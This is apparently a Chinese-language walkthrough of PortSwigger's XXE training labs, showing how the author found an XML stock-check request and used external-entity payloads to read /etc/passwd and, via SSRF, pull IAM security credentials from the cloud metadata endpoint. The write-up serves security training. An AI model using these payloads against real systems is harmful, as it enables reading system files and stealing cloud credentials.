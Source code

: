 # XXE PortSwigger靶场通关笔记

> 靶场链接：https://portswigger.net/web-security/all-labs
>
> 该靶场通关笔记仅仅只是 Port Swigger 靶场的 XXE 部分通关记录，相关的漏洞原理我已全部整理出来放在 [XML外部实体注入（XXE）攻击方式汇总](https://github.com/shungli923/WowBigBug/blob/main/%E5%9F%BA%E7%A1%80%E6%BC%8F%E6%B4%9E/XXE.md) 处。若是对实验过程中涉及到的原理不明白的师傅们欢迎点击链接自助学习。

## Lab: Exploiting XXE using external entities to retrieve files

点击 Access the lab

![image-20221104093147859](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221104093147859.png)

网页内容比较简单，将网页功能流程走完一遍后查看数据包内容（要是网页功能复杂就一个功能点走完后再查看数据包）。这里发现在 `product/stock` 路径下的数据包内容使用了XML文档，把这个包发到Repeater模块，尝试XXE攻击

![image-20221104093442675](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221104093442675.png)

构造一个xml 实体，然后进行利用：payload如下：

```xml-dtd
<!DOCTYPE foo [  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
```

经过实验之后，发现在 `productId`参数下可以通过xxe读取敏感文件内容。

![image-20221104094421151](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221104094421151.png)

**第一关完成！**

## Lab: Exploiting XXE to perform SSRF attacks

点击 Access the lab。根据题目提示信息。这里是需要通过被操作的靶场机器获取到 `http://169.254.169.254`这条服务器的敏感信息

![image-20221104101204053](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221104101204053.png)

使用以下payload：

```xml-dtd
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254">]>
```

看返回包此时返回了该目标下的目录内容

![image-20221104101709873](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221104101709873.png)

将返回目录信息添加在实体信息后，一层层目录递进后，成功获取到目标机器的敏感信息。实体的最终payload信息如下：

```xml-dtd
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
```


[这里查看原理]: https://github.com/shungli923/WowBigBug/blob/main/%E5%9F%BA%E7%A1%80%E6%BC%8F%E6%B4%9E/XXE.md	"点击"